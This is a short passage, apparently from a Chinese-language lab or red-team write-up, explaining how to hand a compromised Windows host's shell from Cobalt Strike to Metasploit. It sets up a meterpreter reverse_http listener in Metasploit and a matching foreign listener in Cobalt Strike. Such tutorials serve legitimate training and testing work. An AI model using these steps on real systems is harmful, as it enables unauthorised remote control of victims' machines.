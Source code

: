 **路径2：**

在kali中打开msf，并执行以下命令准备一个监听，准备将shell从cs移交给msf。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 2222
```
![](../../attaches/Pasted%20image%2020220914191551.png)
在CS中新建一个监听器，payload选择foreign http，地址和端口都和kali保持一致。
![](../../attaches/Pasted%20image%2020220914191827.png)
右键CS中的靶机选择新建会话，payload选择刚创建的Amsf。